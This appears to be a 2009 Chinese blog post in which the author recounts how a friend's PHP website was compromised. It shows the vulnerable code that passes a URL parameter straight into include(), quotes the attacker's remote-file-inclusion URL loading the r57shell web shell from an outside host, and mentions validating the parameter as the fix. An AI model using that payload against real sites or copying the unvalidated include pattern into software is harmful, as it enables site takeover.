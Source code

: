 ```yaml
---
title: 朋友网站被人黑了，黑的经过
author: 阿辉
type: post
date: 2009-01-17T12:22:00+00:00
url: /?p=216
categories:
  - 安全

---
```

网站是四年前刚学PHP的时候帮朋友弄的，有些参数没有处理好，造成让人挂马。

php内有一段是这样的，目的是动态加载一个静态页

$type.=".htm";  
include ($type);

$type是通过url传过来的值，如：  
showhtml.php?type=index

因为虚拟主机的是激活的，所以黑客用了这个地址:  
/showhtml.php?type=http://evilc0der.com/r57.txt??

而r57.txt其实是一个PHP文件，是一个黑客工具，叫r57shell(http://www.xfocus.net/tools/200508/1075.html)

打开上面的地址显示为：  
![][1]  
然后通过upload file就可以替换首页了。

那个家伙还搞了一堆网址，估计都是有漏洞的。在这个页面内：http://www.evilc0der.com/serverlar.html

解决办法到是简单，增加对$type的判断就是了。

 [1]: http://www.huilog.com/wp-content/uploads/baiduhi/ce6bd72a13f9f533d52af135.jpg